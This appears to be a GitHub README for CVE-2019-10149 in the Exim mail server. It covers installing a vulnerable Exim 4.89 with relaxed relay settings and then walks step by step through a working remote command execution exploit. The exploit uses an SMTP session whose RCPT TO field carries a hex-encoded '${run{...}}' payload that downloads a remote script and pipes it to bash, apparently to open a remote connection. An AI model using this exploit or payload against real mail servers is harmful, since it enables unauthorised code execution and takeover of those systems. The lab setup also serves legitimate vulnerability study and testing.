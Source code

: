 # CVE-2019-10149 - Exim 4.87 < 4.91
Instructions for installing a vulnerable version of Exim and its expluatation
Tested on Linux Ubuntu 16.04, Exim 4.89

## Exim installation
Download and extract exim version 4.89
 * wget https://github.com/Exim/exim/releases/download/exim-4_89/exim-4.89.tar.xz && tar -xvf exim-4.89.tar.xz

Move into the extracted folder
 * cd exim-4.89/

Copy and modify required config files
 * sed -e 's,^EXIM_USER. * $,EXIM_USER=exim,' Local/Makefile src/EDITME > Local/Makefile

 * cp exim_monitor/EDITME Local/eximon.conf

Create exim user and group
 * sudo groupadd -g 31 exim 

 * sudo useradd -d /dev/null -c "Exim Daemon" -g exim -s /bin/false -u 31 exim

Install dependencies
 * sudo apt-get update
 * sudo apt-get install -y make build-essential libpcre3-dev libdb-dev libxt-dev libxaw7-dev

Install exim 4.89
 * sudo make install

Edit /usr/exim/configure to allow relaying so we can exploit without waiting 7 days
 * sudo sed -iz 's/domainlist relay_to_domains =/domainlist relay_to_domains =  * /' /usr/exim/configure
 * sudo sed -i '/hostlist   relay_from_hosts = localhost/c\hostlist   relay_from_hosts = 0.0.0.0' /usr/exim/configure
 * sudo sed -i '/require verify = recipient/c\#require verify = recipient' /usr/exim/configure

Run exim as user exim
 * sudo -H -u exim /usr/exim/bin/exim -bd -d-receive    
	
## Crafting the exploit
Convert your shell command to hex. Example:
 * /bin/sh -c “wget https://raw.githubusercontent.com/darsigovrustam/CVE-2019-10149/master/RemoteConnection.sh" -O - | bash
 * \x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fraw\x2Egithubusercontent\x2Ecom\x2Fdarsigovrustam\x2FCVE\x2D2019\x2D10149\x2Fmaster\x2FRemoteConnection\x2Esh\t-O\t-\t\x7C\tbash\x22\
	
	
Table for example:
 * \t-c\ = -c
 * \t\= space
 * x20 = space
 * x7C = |
 * x2F = /
 * x3A = :
 * x2D = -
 * x3E = >
 * x26 = &
 * x22 = "
 * x2E = .
	
## Exploit usage
First we use nc to start a connection to the server.
 * nc 192.168.0.168 25
 
Once we are connected we say HELO.
 * helo localhost
 * (Answer: 250 exim Hello localhost [192.168.0.168])

Next, we set the sender address to blank.
 * mail from:<>
 * (Answer: 250 OK)

Then we set out recipient address with the payload we made earlier by inserting our desired command where the ellipses is rcpt to:<${run{...}}@localhost>.
 * rcpt to:<${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fraw\x2Egithubusercontent\x2Ecom\x2Fdarsigovrustam\x2FCVE\x2D2019\x2D10149\x2Fmaster\x2FRemoteConnection\x2Esh\t-O\t-\t\x7C\tbash\x22\}}@localhost>
 * (Answer: 250 Accepted)

And finally We first type DATA, followed by 31 lines, a blank line, and a period.
 * DATA
 * Received: 1
 * Received: 2
 * Received: 3
 * Received: 4
 * Received: 5
 * Received: 6
 * Received: 7
 * Received: 8
 * Received: 9
 * Received: 10
 * Received: 11
 * Received: 12
 * Received: 13
 * Received: 14
 * Received: 15
 * Received: 16
 * Received: 17
 * Received: 18
 * Received: 19
 * Received: 20
 * Received: 21
 * Received: 22
 * Received: 23
 * Received: 24
 * Received: 25
 * Received: 26
 * Received: 27
 * Received: 28
 * Received: 29
 * Received: 30
 * Received: 31
 * 
 * .
